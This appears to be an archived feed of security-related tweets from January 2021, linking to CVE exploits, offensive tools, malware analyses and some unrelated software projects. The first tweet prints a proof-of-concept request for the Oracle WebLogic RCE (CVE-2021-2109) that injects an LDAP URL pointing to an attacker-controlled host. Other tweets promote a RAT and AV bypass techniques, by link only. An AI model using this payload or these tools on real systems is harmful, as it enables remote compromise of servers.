# wugeej
**https://twitter.com/wugeej/status/1353565699864633344 _at 2021-01-25 04:49:45_**
<blockquote>
#Oracle WebLogic Server RCE (CVE-2021-2109)

[PoC]
GET /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&amp;_nfpb=true&amp;JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(-ldap://192.168.0;[Semicolon]👈10:1389/5r5mu7;AdminServer-)

https://t.co/S875IxhzFa https://t.co/h2REYhG9Yj
</blockquote>

* http://packetstormsecurity.com/files/161053/Oracle-WebLogic-Server-14.1.1.0-Remote-Code-Execution.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>111</code></td>
</table></tr>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1353418716915003397 _at 2021-01-24 19:05:42_**
<blockquote>
Here's a PoC to exploit missing authentication checks (CVE-2020-6207) in SAP EEM servlet, leading to RCE on SAP SMDAgents connected to SAP Solution Manager.

https://t.co/rnLkFDemrd

via @_chipik https://t.co/ZS6rLMBjnL
</blockquote>

* https://github.com/chipik/SAP_EEM_CVE-2020-6207/blob/main/README.md

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>33</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1352573360849481728 _at 2021-01-22 11:06:33_**
<blockquote>
Emulation of Kernel Mode Rootkits With Speakeasy : https://t.co/XnKMwwEhHX 

Emulation of Malicious Shellcode With Speakeasy : https://t.co/ZcQ5CFY1lZ

speakeasy : Windows kernel and user mode emulation : https://t.co/Klv3zCW0XF
</blockquote>

* https://www.fireeye.com/blog/threat-research/2021/01/emulation-of-kernel-mode-rootkits-with-speakeasy.html
* https://www.fireeye.com/blog/threat-research/2020/08/emulation-of-malicious-shellcode-with-speakeasy.html
* https://github.com/fireeye/speakeasy

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>41</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1352219514625257473 _at 2021-01-21 11:40:29_**
<blockquote>
Faker.js – generate massive amounts of fake data in the browser and node : https://t.co/sDq1SW6szd
</blockquote>

* https://github.com/Marak/faker.js

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>61</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1352213099638644736 _at 2021-01-21 11:15:00_**
<blockquote>
Divide and Conquer - A technique to bypass NextGen AV : https://t.co/j4p5d0yYtC 

Dummy PoC for performing process injection : https://t.co/mtNxJI1hfb credits @theevilbit
</blockquote>

* https://theevilbit.github.io/posts/divide_and_conquer/
* https://gist.github.com/theevilbit/073ca4eb15383eb3254272fc24632efd

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>47</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1352210853916004352 _at 2021-01-21 11:06:05_**
<blockquote>
Awesome Alternatives : A curated list of mostly free and open source alternatives to proprietary software and services : https://t.co/s1fL9WuYUW
</blockquote>

* https://gitlab.com/linuxcafefederation/awesome-alternatives

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>161</code></td>
<td>Favorites: <code>534</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1352208019006881792 _at 2021-01-21 10:54:49_**
<blockquote>
Please Stop Encrypting with RSA Directly : https://t.co/9blSxeZ3Vd credits @SoatokDhole 

zuccnet : End-to-End Encrypted Facebook Messenger : https://t.co/GKf3pEjG4h credits @tom__quirk
</blockquote>

* https://soatok.blog/2021/01/20/please-stop-encrypting-with-rsa-directly/
* https://github.com/tomquirk/zuccnet

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>33</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1352207066333638656 _at 2021-01-21 10:51:02_**
<blockquote>
Writing a reverse shell and process dumper entirely in VBA : https://t.co/bd37hr2GtI credits @JohnWoodman15

VBA Macro Reverse Shell : https://t.co/q13Twp9rXT

VBA-Macro-Dump-Process : https://t.co/LvI5lG8nmF

Ref : 
VBA Macro Remote Template Injection : https://t.co/kThSgNRK5A https://t.co/iyGc9WzwK8
</blockquote>

* https://john-woodman.com/research/malicious-vba-macros-trials-tribulations/
* https://github.com/JohnWoodman/VBA-Macro-Reverse-Shell
* https://github.com/JohnWoodman/VBA-Macro-Dump-Process
* https://john-woodman.com/research/vba-macro-remote-template-injection/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>133</code></td>
</table></tr>

---

# goby77463399
**https://twitter.com/goby77463399/status/1352201799969759234 _at 2021-01-21 10:30:06_**
<blockquote>
New vulnerability: Weblogic Server RCE (CVE-2021-2109)
(Next Version update) 

More Vulnerabilities, https://t.co/wkYqnJXCLb
Provide Feedback, https://t.co/A9JYTBSEIR
Join Telegram, https://t.co/uI4YmQTLPX https://t.co/vXdsnCv4JL
</blockquote>

* http://github.com/gobysec/GobyVuls
* http://github.com/Gobysec/Goby/issues
* http://t.me/gobies

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>5</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351910560133128192 _at 2021-01-20 15:12:49_**
<blockquote>
reverse-proxy : A toolkit for developing high-performance HTTP reverse proxy applications : https://t.co/K9zqsRYoj9
</blockquote>

* https://github.com/microsoft/reverse-proxy

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>59</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351898059458764800 _at 2021-01-20 14:23:09_**
<blockquote>
Windfish – a GUI tracing disassembler for GB/GBC games : https://t.co/2wz0OQ15Tc credits @featherless

Windfish Architecture : https://t.co/5UhQT3sBJm

Sameboy : Game Boy and Game Boy Color emulator written in C : https://t.co/rAqMHCiVnZ https://t.co/cE4WJM0QWS
</blockquote>

* https://github.com/jverkoey/windfish/
* https://github.com/jverkoey/windfish/blob/develop/lib/README.md
* https://github.com/LIJI32/SameBoy/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>153</code></td>
</table></tr>

---

# z0x55g
**https://twitter.com/z0x55g/status/1351868447781695488 _at 2021-01-20 12:25:29_**
<blockquote>
WebAssembly Engine Is a Good Attack Surface for Chrome

My first post for 2021:  https://t.co/4ZqDMKK9xZ

A detailed write-up for exploiting CVE-2020-15994 Chrome WebAssembly UAF vulnerability

#chrome #exploit #security #vulnerability
</blockquote>

* https://blog.br0vvnn.io/pages/blogpost.aspx?id=5

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>129</code></td>
<td>Favorites: <code>317</code></td>
</table></tr>

---

# OrlayThierry1
**https://twitter.com/OrlayThierry1/status/1351629602653941762 _at 2021-01-19 20:36:23_**
<blockquote>
Screensaver lock by-pass via the virtual keyboard · Issue #354 · linuxmint/cinnamon-screensaver · GitHub https://t.co/33naJR5uZx
</blockquote>

* https://github.com/linuxmint/cinnamon-screensaver/issues/354

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>63</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351545247986139137 _at 2021-01-19 15:01:12_**
<blockquote>
In-depth technical analysis of Linux.Midrashim - Assembly x64 ELF virus : https://t.co/wnvg4lMs5W 

virii : Collection of ancient computer virus source codes : https://t.co/3nWWbADSK2 credits @guitmz
</blockquote>

* https://www.guitmz.com/linux-midrashim-elf-virus/
* https://github.com/guitmz/virii

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>41</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351539911954894851 _at 2021-01-19 14:40:00_**
<blockquote>
ssh-mitm : ssh mitm server for security audits supporting public key authentication, session hijacking and file manipulation : https://t.co/GUPCloX1Oc
</blockquote>

* https://github.com/ssh-mitm/ssh-mitm

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>57</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351538678724640770 _at 2021-01-19 14:35:06_**
<blockquote>
Exploiting CVE-2014-3153 (Towelroot) : https://t.co/9KUktVw5zy credits @elongli https://t.co/AeRpKFhRMG
</blockquote>

* https://elongl.github.io/exploitation/2021/01/08/cve-2014-3153.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>47</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351536097386393601 _at 2021-01-19 14:24:50_**
<blockquote>
Exposing the bootROM with the UART loader : https://t.co/zKi3Mg1b3s https://t.co/PPneXZjkxp
</blockquote>

* https://gist.github.com/four0four/76401de07a3a170affd3fef0894b624d

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>56</code></td>
</table></tr>

---

# ehakkus
**https://twitter.com/ehakkus/status/1351092000511184897 _at 2021-01-18 09:00:09_**
<blockquote>
(CVE-2021-3113) Authentication Bypass and Root User Add #0day that I discovered during the penetration test in Netsia SEBA+ is now public.The #vulnerability can be exploited with the #metasploit auxiliary module I prepared. Details on my personal blog https://t.co/bxTR1Upr1Z https://t.co/Y2WL1g8U1i
</blockquote>

* https://bit.ly/2N65StI

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>77</code></td>
</table></tr>

---

# netbiosX
**https://twitter.com/netbiosX/status/1351072985701109760 _at 2021-01-18 07:44:36_**
<blockquote>
CovenantTasks - Various Covenant Tasks to bypass ETW, UAC, Capture User Credentials, Perform PPID Spoofing etc. https://t.co/bQMYsn2Hza
</blockquote>

* https://github.com/py7hagoras/CovenantTasks

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>51</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351014244888809473 _at 2021-01-18 03:51:11_**
<blockquote>
RT @jsherma100: xnuspy: hook iOS kernel functions from userspace 🤩 https://t.co/eCN9SMP4c4 definitely the coolest thing I've worked on in m…
</blockquote>

* https://github.com/jsherman212/xnuspy

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>177</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351009778760376320 _at 2021-01-18 03:33:26_**
<blockquote>
Finding 0day to hack Apple - Remote Code Execution on Apple's Travel Portal which gave $50k bug bounty : https://t.co/bD6e0qij06 credits @rootxharsh || @iamnoooob
</blockquote>

* https://github.com/httpvoid/writeups/blob/main/Apple-RCE.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>73</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351005956461764609 _at 2021-01-18 03:18:15_**
<blockquote>
Arbitrium RAT, Fully UnDetectable &amp; Cross-platform (Android, Windows &amp; Linux) + doesn't require any firewall exceptions or port forwarding rules : https://t.co/2U2EOCONyH
</blockquote>

* https://github.com/BenChaliah/Arbitrium-RAT

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>151</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351004324298633220 _at 2021-01-18 03:11:46_**
<blockquote>
Sign over Your Hashes – Stealing NetNTLM Hashes via Outlook Signatures : https://t.co/7MSaCKgKel credits @buffaloverflow @Jstorr @johnnyspandex

Sigwhatever : For automated exploitation of netntlm hash capture via image tags in emails signatures : https://t.co/CKbCRr7Ryo
</blockquote>

* https://research.nccgroup.com/2021/01/15/sign-over-your-hashes-stealing-netntlm-hashes-via-outlook-signatures/
* https://github.com/nccgroup/nccfsas/tree/main/Tools/Sigwhatever

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>52</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351002439898587148 _at 2021-01-18 03:04:16_**
<blockquote>
Running a fake power plant on the internet for a month : https://t.co/ITEK2EXyZh credits @StefanGrimminck

ICSSPLOIT (Industrial Control System Exploitation Framework)，a exploitation framework based on Python : https://t.co/neVEvtKCII

JARM : https://t.co/4euVGOZTFh
</blockquote>

* https://grimminck.medium.com/running-a-fake-power-plant-on-the-internet-for-a-month-4a624f685aaa
* https://github.com/tijldeneut/icssploit
* https://engineering.salesforce.com/easily-identify-malicious-servers-on-the-internet-with-jarm-e095edac525a

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>62</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351000834562256917 _at 2021-01-18 02:57:53_**
<blockquote>
Bypassing AV, AMSI, ConstrainedLanguage and AppLocker : https://t.co/psRS5s42e0 credits @theluemmel

Invoke-SharpLoader :  https://t.co/6rcwt7TSW2 credit @ShitSecure

PowerShdll : Run PowerShell with rundll32. Bypass software restrictions: https://t.co/gbF5UjLO7d credit @xP3nt4
</blockquote>

* https://luemmelsec.github.io/Circumventing-Countermeasures-In-AD/
* https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader
* https://github.com/p3nt4/PowerShdll

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>83</code></td>
</table></tr>

---

# bad_packets
**https://twitter.com/bad_packets/status/1350559265631571974 _at 2021-01-16 21:43:15_**
<blockquote>
Ongoing mass scanning activity detected from 185.191.32.178 (🇷🇺) targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext. #threatintel https://t.co/krXuIpLYGG
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>33</code></td>
</table></tr>

---

# NovakDaniel
**https://twitter.com/NovakDaniel/status/1350471722034745348 _at 2021-01-16 15:55:23_**
<blockquote>
I think the @signalapp apps DDoS'ed the server. Servers ran over capacity due to influx of users and started to return HTTP 508 which was not handled by the app and millions of apps started retrying the connection at once. Judging from recent commits in https://t.co/KD6kS2o9wt
</blockquote>

* https://github.com/signalapp/Signal-Android/commits/master

<table><tr>
<td>Quotes: <code>65</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>438</code></td>
</table></tr>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1350103523053232131 _at 2021-01-15 15:32:18_**
<blockquote>
Weblogic Remote Code Execution Exploiting CVE-2019-2725 https://t.co/8a62AvkNpA  #Pentesting #WebSecurity #RCE #Exploit #Infosec https://t.co/gSmm8EChcp
</blockquote>

* https://blog.cybercastle.io/weblogic-remote-code-execution-exploiting-cve-2019-2725/

<table><tr>
<td></td>
